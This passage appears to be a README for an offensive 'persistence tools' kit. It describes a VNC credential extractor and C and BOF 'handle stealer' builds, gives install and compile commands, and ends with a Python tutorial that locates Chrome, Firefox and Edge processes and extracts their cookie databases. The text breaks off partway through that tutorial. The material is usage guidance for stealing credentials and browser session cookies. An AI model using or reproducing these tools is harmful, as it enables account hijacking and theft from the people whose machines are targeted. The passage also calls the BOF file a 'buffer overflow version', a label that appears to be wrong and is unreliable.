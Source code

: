 ### 6. VNC Extractor (`VNC.py`)
- **Purpose**: Extract VNC connection credentials
- **Features**: VNC configuration extraction, credential decryption
- **Status**: ⚠️ Requires dploot dependency

### 7. C/C++ Implementations
- **handle-stealer.c**: C implementation of handle stealer
- **handle-stealer-bof.c**: Buffer overflow version
- **Compiled Objects**: x64 and x86 compiled versions

---

## 🚀 Installation & Setup

### Prerequisites:
```bash
# Install required dependencies
pip install psutil ctypes

# For Windows-specific tools
pip install pywin32

# For advanced extraction (optional)
pip install dploot
```

### Setup:
```bash
# Navigate to persistence tools directory
cd persistence_tools

# Compile C implementations (Windows)
gcc -o handle-stealer.exe handle-stealer.c -lpsapi -lntdll

# Make Python scripts executable (Linux/macOS)
chmod +x *.py
```

---

## 📖 Usage Tutorials

### 1. Handle Stealer Tutorial

#### Basic Usage (Windows):
```python
from persistence_tools.handle_stealer import HandleStealer

# Initialize handle stealer
stealer = HandleStealer()

# Get browser process PIDs
chrome_pid = stealer.get_process_pid_by_name("chrome.exe")
firefox_pid = stealer.get_process_pid_by_name("firefox.exe")
edge_pid = stealer.get_process_pid_by_name("msedge.exe")

# Steal cookie databases
if chrome_pid:
    chrome_cookies = stealer.steal_cookie_database(chrome_pid, "chrome")
    print(f"Chrome cookies extracted: {len(chrome_cookies)}")

if firefox_pid:
```